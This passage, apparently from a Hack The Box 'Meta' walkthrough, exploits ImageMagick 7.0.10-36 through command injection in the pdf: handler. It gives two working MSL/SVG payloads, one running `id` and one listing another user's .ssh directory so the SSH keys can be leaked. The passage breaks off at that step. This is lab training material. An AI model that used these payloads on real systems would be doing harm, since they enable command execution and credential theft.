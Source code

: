 We have the following version of ImageMagick, which is vulnerable:

```bash
www-data@meta:/usr/local/bin$ mogrify --version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib
```

In this [post](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html) we can see a command injection vulnerability using PDFs as input files. We don't need to have a PDF inside, we just use the _pdf:_ protocol handler which is vulnerable to command injection.

```xml
<image authenticate='ff" `echo $(id)> ./0wned`;"'>
  <read filename="pdf:/tmp/user.txt"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

Making some test we can see the 0wned file with the output of the command:

<p align="center">
  <img src="/images/walkthroughs/hackthebox/meta/6_0_mogri.png" width="70%"/>
</p>

After some test I found that we cannot use the tmp directory as output for the thomas execution, so better to drop it on the dev folder:


```xml
<!-- Dropping if there are any SSH keys -->
<image authenticate='ff" `echo $(ls /home/thomas/.ssh)> /dev/shm/.kash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:kash.svg" height="100" width="100"/>
  </svg>
</image>

<!-- Yes, there was, so we leak them -->
```